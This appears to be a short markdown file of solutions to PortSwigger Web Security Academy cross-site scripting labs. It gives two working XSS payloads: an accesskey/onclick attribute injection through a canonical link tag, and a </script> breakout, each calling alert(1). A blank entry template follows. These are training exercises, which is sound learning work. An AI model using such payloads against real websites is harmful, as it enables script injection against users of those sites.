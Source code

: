 ## XSS with Access key (Canonical Link tag)

Chapter: https://portswigger.net/web-security/cross-site-scripting/contexts

**Lab:** https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

**Limitation:** Only on Chrome

**Solution:** https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
Press Alt+x on keyboard to get alert

## XSS within <script>

**Chapter:** https://portswigger.net/web-security/cross-site-scripting/contexts
**Lab:** https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped
**Limitations:** NA
**solution:** </script><script>alert(1)</script>



Template:
## <topic>

**Chapter:**
**Lab:** 
**Limitations:** NA
**solution:** 
